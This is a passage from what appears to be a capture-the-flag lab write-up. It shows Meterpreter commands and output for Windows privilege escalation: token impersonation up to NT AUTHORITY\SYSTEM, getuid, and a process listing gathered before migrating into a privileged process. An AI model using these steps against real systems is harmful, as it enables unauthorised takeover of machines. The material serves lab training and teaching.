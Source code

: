 ```bash
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc

meterpreter > 
```
We can see that the token **BUILTIN\Administrators** is available. Let's impersonate that token by running the following in our **meterpreter** session. 

```bash
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > 
```

Once the impersonation is done we type another command to get the UID:

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
As we can see we successfully managed to impersonate **NT AUTHORITY\SYSTEM**.


Now we can answer the room's question:

> Question #3: What is the output when you run the _getuid_ command?

Even though we managed to impersonate successfully, this actually won't allow us to fully have the permissions of a privileged  user. So, we need to fix that. 

We can try to migrate our process to any other that is running with higher privileges, for that we'll use the **ps** command to get the list of running processes and identify one that suits our needs and finally **migrate PID** to migrate to such process.

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 776   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 792   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
```